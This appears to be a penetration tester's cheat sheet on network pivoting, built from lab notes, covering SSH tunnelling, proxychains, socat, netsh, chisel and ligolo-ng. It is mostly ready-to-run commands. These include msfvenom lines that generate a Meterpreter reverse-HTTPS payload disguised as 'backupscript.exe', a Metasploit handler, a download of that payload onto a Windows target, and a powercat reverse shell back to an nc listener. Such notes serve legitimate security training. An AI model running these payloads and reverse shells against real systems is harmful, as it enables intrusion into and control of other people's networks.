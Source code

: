 ```yaml
---
layout: default
---
```


# Dynamic Port Forwarding with SSH and SOCKS Tunneling
## SSH Local Port Forwarding
```bash
# Forward port 3306 from 10.129.202.64 to localhost 1234
$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64

$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

## Dynamic Port Forwarding
```bash
$ ssh -D 9050 ubuntu@10.129.202.64
```

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

```bash
$ proxychains nmap -v -sn 172.16.5.1-200
```

## Remote/Reverse Port Forwarding with SSH
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

```
ubuntu@pivot$ python3 -m http.server 8123
```

```
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

```
$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
## Socat Redirection with a Reverse Shell
```
ubuntu@pivot:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

## Port Forwarding with Windows Netsh
```
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

## SOCKS5 Tunneling with Chisel
`Find PID to kill`
```
$ lsof -i:8080 
```

`Local Machine`
```
$ chisel server --socks5 --reverse`
```

`Remote machine`
```
./chisel client --fingerprint f9KLbYov18MaH86fvgZhbVMyTAj4LAT6Iv8E8Nlwy0k= 10.10.15.23:8080 R:8081:127.0.0.1:445
```

# [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)

[Guide](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
[Video](https://www.youtube.com/watch?v=qou7shRlX_s)

`Proxy (Attack)`
```
$ sudo ip tuntap add user [your_username] mode tun ligolo

$ sudo ip link set ligolo up

$ ./proxy -selfcert
$ ./proxy -autocert
```


`Agent (Target)`
```
C:\Windows\system32> ./agent -connect 10.10.15.184:11601 --ignore-cert
```

`Proxy (Attack)`
```
session

[Agent : ubuntu@WEB01] » ifconfig
```

```
[Agent : ubuntu@WEB01] » start
```


[IPCalculator](https://jodies.de/ipcalc)
```bash
$ sudo ip route add 172.16.4.0/23 dev ligolo
```

After that, we can scan for live hosts on new network found.

`Proxy (Attack)`
```bash
nmap -sn 172.16.5.0/24
```
### Download and Upload files from and to Target
```bash
# Redirect 8080 on Agent machine to our Proxy 8080 to upload files to it 
» listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:8080 --tcp

# Redirect 8000 on Agent machine to our Proxy 8000 to download files from it 
» listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:8000 --tcp
```

#### Reverse Shell Pivot Machine to Attack Machine throught Agent
`Proxy (Attack)`
```
[Agent : session] » listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
```

```
$ nc -lnvp 10000
```

`Agent(Target)`
```
https://github.com/besimorhino/powercat/blob/master/powercat.ps1

Copy into powershell

C:\Users\victor> powercat -c (Internal Pivot Machine Interface) -p 30000 -ep
```

### Double Pivot[https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c]
- https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/


After access to first machine or pivot, if exists another network we can also pivot to it.

First we need to put agent on pivot machine, for it we need to open a port on our local machine and add a listener on pivot machine to redirect from port 8080 to our local port 9999.

**Download Agent to Pivot - Proxy (Attack)**
Open port to pass our http server

```
[Agent : session] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:9999 --tcp
``` 

**Pivot New Target**
```
Download agent file from (Internal Pivot Machine Interface):8080
```

**Proxy (Attack)**
```
$ sudo ip tuntap add user [your_username] mode tun ligoloSec

$ sudo ip link set ligoloSec up

$ sudo ip route add 172.16.5.155 dev ligoloSec
```

```
[Agent : session] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

**Pivot New Target**
```
C:\Windows\system32> ./agent -connect (Internal Pivot Machine Interface):11601 --ignore-cert
```

**Proxy (Attack)**
```
[Agent : session] » start --tun ligoloSec
```


### Forward Ports from Pivot Machine to Attack Machine
```
$ sudo ip route add 240.0.0.1/32 dev ligolo
```

```
$ nmap 240.0.0.1
```

